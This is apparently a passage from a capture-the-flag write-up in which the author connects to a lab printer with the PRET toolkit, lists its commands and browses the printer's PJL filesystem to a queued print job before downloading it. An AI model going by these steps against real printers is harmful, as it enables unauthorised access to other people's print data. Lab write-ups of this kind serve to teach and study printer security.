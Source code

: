          (ASCII art by                                                 
         Jan Foerster)                                                 
                                                                       
    Connection to 10.10.10.201 established
    Device:   LaserCorp LaserJet 4ML

    Welcome to the pret shell. Type help or ? to list commands.
    10.10.10.201:/>



#### Commands

The help menu is useful here to see what commands are available:



    10.10.10.201:/> ?

    Available commands (type help <topic>):
    =======================================
    append  delete    edit    free  info    mkdir      printenv  set        unlock 
    cat     destroy   env     fuzz  load    nvram      put       site       version
    cd      df        exit    get   lock    offline    pwd       status   
    chvol   disable   find    help  loop    open       reset     timeout  
    close   discover  flood   hold  ls      pagecount  restart   touch    
    debug   display   format  id    mirror  print      selftest  traversal



I'll come back to this over and over again.

#### Find Job

I'll look around this "filesystem" to see what's there using `ls`:



    10.10.10.201:/> ls
    d        -   pjl



The `d` means this is a directory named `pjl`. Going into it, there's
another directory named `jobs`:



    10.10.10.201:/> cd pjl
    10.10.10.201:/pjl> ls
    d        -   jobs



In `jobs`, there's a "file" named `queued`:



    10.10.10.201:/pjl> cd jobs/
    10.10.10.201:/pjl/jobs> ls
    -   172199   queued



The help menu showed a `get` command, and it works to download the data
to my host:
